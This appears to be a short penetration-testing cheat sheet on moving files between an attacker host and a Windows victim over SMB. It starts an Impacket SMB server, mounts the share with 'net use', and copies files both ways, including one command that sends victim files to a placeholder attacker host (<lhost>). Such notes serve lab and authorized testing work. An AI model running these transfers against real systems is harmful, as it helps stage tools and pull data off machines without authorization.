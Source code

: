 # linux attacker

## smb host

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

## smb2 with password

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username username -password password kali .
```

# windows attacker

## mount smb share to letter

```cmd
net use u: \\<lhost>\kali /user:username password
```

## unmount smb share

```cmd
net use u: /d
```

## move files from attacker to victim via smb share

```cmd
copy \\<lhost>\kali\<some-file> C:\PrivEsc\<some-file>
```

## move files from victim to attacker via smb share

```cmd
copy C:\PrivEsc\<some-file> \\<lhost>\kali\<some-file>
```
